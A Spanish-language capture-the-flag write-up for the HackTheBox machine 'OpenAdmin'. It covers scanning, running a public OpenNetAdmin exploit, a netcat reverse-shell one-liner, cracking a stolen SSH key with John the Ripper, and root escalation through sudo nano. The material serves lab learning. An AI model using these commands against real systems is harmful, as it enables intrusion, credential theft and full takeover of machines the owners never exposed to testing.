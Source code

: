 ```yaml
---
description: '✍️ Autor: MrR3boot 🔍 Dificultad: Fácil 📅 Fecha de creación: 16/04/2020'
---
```


# OpenAdmin

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.171
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1309).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.171
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1310).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 22 (SSH):** El puerto 22 está abierto y ejecutando OpenSSH 7.6p1 en un sistema Ubuntu Linux. Se han detectado las claves del host en los algoritmos RSA, ECDSA y ED25519, lo que indica que el sistema permite conexiones seguras mediante SSH.
* **Puerto 80 (HTTP):** El puerto 80 está abierto y ejecutando un servidor web Apache 2.4.29 en Ubuntu. La página detectada es la predeterminada de Apache en Ubuntu, lo que sugiere que el servidor web podría estar recién configurado o sin contenido adicional.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 10.10.10.171
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1311).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/image (1312).png" alt=""><figcaption></figcaption></figure>

No vemos nada así a primera vista ni tampoco en el código fuente por lo que vamos a escanear directorios.

```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://10.10.10.171/FUZZ
```

<figure><img src="../../.gitbook/assets/image (1313).png" alt=""><figcaption></figcaption></figure>

Entramos en el directorio `/music`.

<figure><img src="../../.gitbook/assets/image (1314).png" alt=""><figcaption></figcaption></figure>

Vemos que hay un panel de Login.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-23 160359.png" alt=""><figcaption></figcaption></figure>

Parece un controlador de dominios por lo que lo añado.

```
echo "10.10.10.171 openadmin.htb" >> /etc/hosts
```

Vemos que se nos muestra una versión por lo que miramos si hay alguna versión.

```
searchsploit opennetadmin
```

<figure><img src="../../.gitbook/assets/image (1315).png" alt=""><figcaption></figcaption></figure>

Nos lo descargamos.

```bash
searchsploit -m php/webapps/47691.sh
```

<figure><img src="../../.gitbook/assets/image (1316).png" alt=""><figcaption></figcaption></figure>

Ejecutamos.

```bash
./47691.sh http://10.10.10.171/ona/
```

<figure><img src="../../.gitbook/assets/image (1317).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Nos mandamos una Reverse Shell.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.43 443 >/tmp/f
```

<figure><img src="../../.gitbook/assets/image (1318).png" alt=""><figcaption></figcaption></figure>

En la ruta `/opt/ona/www/local/config`.

<figure><img src="../../.gitbook/assets/image (1319).png" alt=""><figcaption></figcaption></figure>

Encontramos unas credenciales. Es habitual que los usuarios reutilicen contraseñas así que nos logueamos con esas.

```bash
ssh jimmy@10.10.10.171
```

<figure><img src="../../.gitbook/assets/image (1320).png" alt=""><figcaption></figcaption></figure>

En la ruta `/var/www/internal` encontramos archivos interesantes.

<figure><img src="../../.gitbook/assets/image (1321).png" alt=""><figcaption></figcaption></figure>

Vemos que interactúa con el **main.php**.

<figure><img src="../../.gitbook/assets/image (1322).png" alt=""><figcaption></figcaption></figure>

Parece que el archivo `main.php` está ejecutando un comando del sistema, y cada vez que se ejecuta, muestra la clave privada (`id_rsa`) de Joanna (otro usuario).

El archivo no era accesible desde el exterior, lo que indica que probablemente esté alojado de forma interna. Por ello, decidí revisar los puertos que estaban en escucha.

```bash
netstat -l
```

<figure><img src="../../.gitbook/assets/image (1323).png" alt=""><figcaption></figcaption></figure>

```bash
curl http://127.0.0.1:52846/main.php
```

<figure><img src="../../.gitbook/assets/image (1324).png" alt=""><figcaption></figcaption></figure>

Nos lo copiamos y le damos permisos.

```
chmod 600 id_rsa
```

Usamos John The Ripper para sacar la contraseña de la clave cifrada.

```bash
ssh2john id_rsa > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

<figure><img src="../../.gitbook/assets/image (1325).png" alt=""><figcaption></figcaption></figure>

Iniciamos sesión con Joana.

```bash
ssh -i id_rsa joanna@10.10.10.171
```

<figure><img src="../../.gitbook/assets/image (1326).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.&#x20;

<figure><img src="../../.gitbook/assets/image (1327).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/nano/" %}

```bash
sudo /bin/nano /opt/priv
^R^X
reset; sh 1>&0 2>&0
```

<figure><img src="../../.gitbook/assets/image (1328).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.

<figure><img src="../../.gitbook/assets/image (1329).png" alt=""><figcaption></figcaption></figure>
